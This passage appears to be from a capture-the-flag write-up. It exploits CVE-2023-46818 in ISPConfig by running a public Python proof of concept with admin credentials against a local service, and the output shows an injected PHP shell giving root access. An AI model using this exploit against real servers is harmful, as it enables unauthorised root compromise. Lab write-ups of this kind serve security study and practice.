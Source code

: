 ![nocturnal-1744503123457.png](/assets/img/img_nocturnal/nocturnal-1744503123457.png)
We can find the following disclosure on the vulnerability.
- https://nvd.nist.gov/vuln/detail/CVE-2023-46818
Additionally we can find the following `poc` on the vulnerability.
- https://github.com/bipbopbup/CVE-2023-46818-python-exploit
Analysing the exploit we can tell that it's creating a `php` file through editing a language file.
Let's run the exploit.
```bash
python3 exploit.py http://localhost:8080 admin slowmotionapocalypse
[+] Target URL: http://localhost:8080/
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell

ispconfig-shell# whoami
root


ispconfig-shell#
```
Success! we have a shell as root!